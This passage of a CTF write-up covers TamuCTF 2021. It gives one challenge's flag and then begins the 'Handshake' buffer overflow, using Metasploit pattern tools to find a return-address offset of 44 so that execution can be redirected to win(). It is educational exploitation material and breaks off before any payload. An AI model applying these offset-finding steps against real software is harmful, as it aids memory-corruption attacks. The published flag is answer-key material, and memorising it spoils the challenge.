 ### Flag

gigem{b4s1c_b4ff3r_0verfl0w_g03s_y33t}



## Handshake

Another basic buffer overflow challenge. It's similar to the previous challenge.

![image-20210429135617686](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429135617686.png)

![image-20210429135642237](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429135642237.png)

![image-20210429140020165](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429140020165.png)

 The task now is to overwrite the return address to navigate the program flow from vuln() function to win() funciton.

I use two scripts from metaspolit framework quickly compute the offset:

```msf-pattern_generate.rb``` to generate large input

```
$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Use the generated input with gdb and see vuln() function's return address:

![image-20210429135126568](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429135126568.png)

Use ```msf-pattern_offset.rb``` to compute the offset

```
$ msf-pattern_offset -q 35624134
[*] Exact match at offset 44
```

![image-20210429135857285](https://raw.githubusercontent.com/xnyuq/xnyuq.github.io/master/_posts/2021-4-26-TamuCTF-2021.assets/image-20210429135857285.png)
```